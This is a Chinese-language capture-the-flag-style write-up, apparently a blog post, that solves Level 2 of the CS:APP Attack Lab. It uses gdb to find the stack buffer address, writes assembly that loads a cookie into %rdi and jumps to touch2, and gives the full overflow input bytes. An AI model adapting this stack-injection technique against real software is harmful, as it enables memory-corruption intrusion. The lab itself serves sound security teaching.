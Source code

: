 函数的参数传递先使用 6 个寄存器，更多的参数保存在栈中。前 6 个寄存器如下图所示：

{% asset_img  register.png [图 2. 传递函数参数的寄存器] %}

第一个参数寄存器为 %rdi，因此需要注入执行代码将 cookie 值保存到寄存器 %rdi 中。

首先**执行代码本质**上是字节序列，其次返回地址指向下一条指令的地址，最后 CTARGET 的堆栈位置每次运行都保持一致。利用这三条性质可将返回地址指向栈的某个位置，并在该位置填入合法的指令字节序列，注入攻击代码。

**A. 查看数组 buf 在栈上的保存位置。**

使用 `b getbuf` 在函数 getbuf 的第一条指令设置断点，然后使用 `n 2` 执行一下两条指令：

```assembly
0x4017a8 <+0>:     sub    $0x28,%rsp
0x4017ac <+4>:     mov    %rsp,%rdi
```

此时 %rdi = %rsp，为函数 Gets 的参数 buf，因此输入字符串的起始地址等于 %rsp。

使用 `print /x $rsp` 查看 %rsp 的值为 0x5561dc78，即 CTARGET 每次运行时 buf 的地址都是 0x5561dc78。

**B. 生成注入代码的字节序列。**

与 Level 1 类似，用 0x5561dc78 覆盖 getbuf 的返回地址，然后从 0x5561dc78 开始填充注入代码：保存 cookie 值到 %rdi，然后跳转执行 touch2，其汇编代码如下：

```assembly
mov $0x59b997fa, %rdi
push $0x4017ec			# 填充 touch2 作为新返回地址
retq					# 跳转到 touch2
```

将上述代码保存为 exec.s，使用以下命令查看指令字节序列：

```bash
gcc -c exec.s
objdump -d exec.o
```

指令字节序列为：

```
exec.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

**C. CTARGET 的输入字节序列**

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
